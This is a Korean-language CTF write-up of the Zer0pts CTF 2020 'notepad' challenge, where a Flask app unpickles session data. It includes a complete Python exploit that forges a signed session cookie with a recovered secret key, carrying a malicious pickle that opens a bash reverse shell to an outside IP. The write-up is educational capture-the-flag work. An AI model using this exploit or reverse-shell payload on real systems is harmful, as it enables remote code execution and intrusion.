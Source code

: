 ```python
        savedata = flask.session.get('savedata', None)
        data = pickle.loads(base64.b64decode(savedata))
    except:
        data = [{"date": now(), "text": "", "title": "*New Note*"}]
    
    return data
```
/note를 보면 load() 함수를 호출하는 것을 볼 있습니다. load() 함수는 세션 값에서 `savedata`라는 값을 가져와서 base64 디코딩을 하고, pickle.loads() 함수의 인자로 넘겨주는 것을 볼 수 있습니다. 바로 여기서 RCE 취약점이 발생합니다. 해당 취약점에 자세한 내용은 구글을 통해 확인할 수 있습니다.
![](https://github.com/wjddnjs33/image/blob/main/Zer0pts%20CTF%202020/notepad/2.png?raw=true)
Flask 세션 관련 내용을 정확히 숙지하고 있지 않아서 구글에 검색을 해보니 `sessions.SecureCookieSessionInterface`, `Flask` 두 함수를 이용하면 시크릿 키를 이용해 세션 값을 만들어 줄 수 있는 것을 알 수 있었습니다. 물론 Flask 함수를 쓰지 않고 클래스를 생성해서도 줄 수 있습니다.

그러니 시크릿 키를 이용해서 세션 값을 변조하고, 변조한 세션 값을 가지고, /note/<int:id>로 접근을 해주면 load() 함수의 pickle.loads() 함수가 호출이 돼서 RCE가 발생하게 됩니다. 

<span style="color:#631F9C">&#62;</span> Exploit
```python
import os, sys, base64, pickle, requests
from flask import Flask
from flask.sessions import SecureCookieSessionInterface

cmd = "bash -c 'bash -i >& /dev/tcp/141.164.52.207/12345 0>&1'"
key_ = b'$\x9e\x15\x12\xd7\x1d\x9c\x01\x05\x91\x1332\xd9(m'
class RCE(object):
  def __reduce__(self):
    return (os.system,(cmd,))
def exploit():
  app = Flask("app")
  app.secret_key = key_
  
  sscsi = SecureCookieSessionInterface()
  signingSerializer = sscsi.get_signing_serializer(app)
  
  session = signingSerializer.dumps({'savedata':base64.b64encode(pickle.dumps(RCE()))})
  print("Sessions : {}".format(session))
  requests.get('http://localhost:8001/note/1', cookies = {'session':session})

if __name__ == '__main__':
  print("[+] RCE in Pickle Start")
  exploit()
```
그래서 파이썬을 이용해서 위와 같이 RCE POC를 작성해주었습니다. 처음에는 `nc`를 이용해서 쉘을 딸려 했지만 잘 되지 않았습니다. 그래서 그냥 코드 미스인 줄 알았는데 `bash -c`를 이용해서 쉘을 따주니 잘 되었습니다.
![](https://github.com/wjddnjs33/image/blob/main/Zer0pts%20CTF%202020/notepad/3.png?raw=true)
RCE POC를 돌려주니 쉘이 잘 따지는 것을 볼 수 있고, flag도 볼 수 있었습니다. ( nc 명령어를 확인해보니 명령어 자체가 없었음 )

> FLAG : zer0pts{fl4sk_s3ss10n_4nd_pyth0n_RCE}

---

## (Web) Can you guess it [345pts]
